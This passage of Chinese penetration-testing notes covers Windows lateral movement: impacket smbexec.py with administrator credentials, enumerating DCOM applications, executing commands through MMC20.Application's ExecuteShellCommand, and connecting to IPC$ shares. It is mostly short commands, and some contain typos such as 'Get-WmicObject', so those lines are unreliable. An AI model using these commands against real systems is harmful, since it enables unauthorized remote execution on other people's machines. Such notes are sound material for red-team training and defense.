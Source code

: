 ### [](#impacket-%E5%B7%A5%E5%85%B7%E5%8C%85%E4%B8%AD%E7%9A%84-smbexecpy)impacket 工具包中的 smbexec.py

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>smbexec.py penteer/administrator:password\@IP<br>``` |

## [](#dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E4%B8%AD%E7%9A%84%E4%BD%BF%E7%94%A8)DCOM 在远程系统中的使用

### [](#%E9%80%9A%E8%BF%87%E6%9C%AC%E5%9C%B0-dcom-%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)通过本地 DCOM 执行命令

#### [](#%E8%8E%B7%E5%8F%96-dcom-%E7%A8%8B%E5%BA%8F%E5%88%97%E8%A1%A8)获取 DCOM 程序列表

windows server 2012 及以上

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-CimInstance Win32_DCOMApplicatioon<br>``` |

Windows 7、Windows Server 2008

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Get-WmicObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication<br>``` |

#### [](#%E4%BD%BF%E7%94%A8-dcom-%E6%89%A7%E8%A1%8C%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4)使用 DCOM 执行任意命令

本地启动一个管理员权限的 powershell

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1")).Document.ActiveView.ExecuteShellCommand("cmd.exe","0","/c calc.exe","Minimzed")<br>``` |

### [](#%E4%BD%BF%E7%94%A8-dcom-%E5%9C%A8%E8%BF%9C%E7%A8%8B%E6%9C%BA%E5%99%A8%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)使用 DCOM 在远程机器上执行命令

远程连接时必须使用具有本地管理员权限的账号

#### [](#%E4%BD%BF%E7%94%A8-ipc-%E8%BF%9E%E6%8E%A5%E8%BF%9C%E7%A8%8B%E8%AE%A1%E7%AE%97%E6%9C%BA)使用 IPC$ 连接远程计算机

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>net use \\IP "password" /user:pentest.hacker\win7user<br>``` |

#### [](#%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4)执行命令
